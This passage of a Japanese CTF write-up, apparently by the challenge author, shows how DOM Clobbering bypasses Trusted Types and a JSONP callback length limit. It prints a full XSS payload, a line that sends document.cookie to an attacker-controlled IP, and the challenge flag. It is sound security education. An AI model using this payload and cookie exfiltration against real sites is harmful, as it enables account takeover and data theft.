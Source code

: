 ひとつの方法は、`a` 要素を使うことです。`a` 要素に対応する `HTMLAnchorElement` オブジェクトは、以下のように文字列化するとその [`a` 要素の `href` 属性の URL を返します](https://developer.mozilla.org/ja/docs/Web/API/HTMLAnchorElement/toString)。

![href属性の内容が返ってきている](../images/2021-03-07_blog4.png)

以下のように `abc` のような適当なスキームの URL を `href` 属性に設定してやると、文字列化される際に JavaScript コードとしても解釈できる文字列に変換させることができます。

```html
<a href="abc:test" id="link">hoge</a>
<script>
console.log(link + ''); // => abc:test
</script>
```

これを使えば、`callback` に好きな JavaScript コードを仕込んで実行させることができます。しかし、`api.php` のソースコードを読んで確認したように、`callback` は最大で 20 文字です。なんとかしてもっと長い JavaScript コードを実行させることはできないでしょうか。

これもやはり、DOM Clobbering でバイパスできます。`callback` の値を操作したときと同じように、文字列化すると `data:text/plain;base64,(Base64 encoded script)` というように `data` スキームの JavaScript コードを返すような `a` 要素を仕込んでおきます。

この状態で `callback` に `abc:jsonp(x);//` というように `jsonp` 関数を呼び出す JavaScript コードを仕込んでおくと、`data` スキームの URL が読み込まれ、JavaScript コードとして実行されます。

これまでの成果をまとめると以下のようなペイロードができあがります。これを使えば好きな JavaScript コードを実行させることができます。

```html
"><form id="trustedTypes"><input name="defaultPolicy"></form><a href="abc:jsonp(x);//" id="callback"></a><a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>
```

`location="http://(your IP address)?"+encodeURIComponent(document.cookie)` という JavaScript コードを実行するペイロードを仕込んで bot に報告すると、以下のようにフラグが得られました。

![フラグが得られた](../images/2021-03-07_blog5.png)

```
zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}
```

---

> zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}

そうでもないです。

Firefox が Trusted Types をまだサポートしていないと知って、なにかに使えないかなーと思って作ったのがこの問題でした。特定の Web ブラウザでしか解けない問題を作ってみたかったという理由もあります。